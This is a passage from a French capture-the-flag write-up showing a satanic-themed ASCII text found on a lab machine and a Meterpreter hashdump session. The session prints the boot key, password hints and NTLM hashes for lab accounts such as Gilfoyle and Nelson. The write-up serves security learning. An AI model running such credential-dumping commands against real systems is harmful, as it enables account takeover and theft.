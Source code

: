 ```plain
_________6666_________6_________666__________
____________66666_____6____66666_____________
___________________6666666________________

   Prayer for The Praise of Satan's Kingdom

              Praise, Hail Satan!
   Glory be to Satan the Father of the Earth
       and to Lucifer our guiding light
    and to Belial who walks between worlds
     and to Lilith the queen of the night
    As it was in the void of the beginning
                   Is now,
and ever shall be, Satan's kingdom without End

                so it is done.

                    * * *
```

[Hail Satan !](https://www.youtube.com/watch?v=8iqcId_8KVE)  

La suite a consisté à extraire quelques hashs et passwords :  

```plain
meterpreter > run hashdump

[!] Meterpreter scripts are deprecated. Try post/windows/gather/smart_hashdump.
[!] Example: run post/windows/gather/smart_hashdump OPTION=value [...]
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 825c9e5d797816cc73c2a5734112d6c7...
/usr/share/metasploit-framework/lib/rex/script/base.rb:134: warning: constant OpenSSL::Cipher::Cipher is deprecated
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
/usr/share/metasploit-framework/lib/rex/script/base.rb:268: warning: constant OpenSSL::Cipher::Cipher is deprecated
/usr/share/metasploit-framework/lib/rex/script/base.rb:272: warning: constant OpenSSL::Cipher::Cipher is deprecated
/usr/share/metasploit-framework/lib/rex/script/base.rb:279: warning: constant OpenSSL::Cipher::Cipher is deprecated
[*] Dumping password hints...

Gilfoyle:"         "
Nelson:"password"

[*] Dumping password hashes...

Gilfoyle:500:aad3b435b51404eeaad3b435b51404ee:9216302ed9e7d9f717156ec796aeb69a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
nginx:1000:aad3b435b51404eeaad3b435b51404ee:639c9d1b2c2afc36e5009c6f1c65cefd:::
Nelson:1002:aad3b435b51404eeaad3b435b51404ee:9de26a8b86512e11228e8ab1c7955dec:::
```
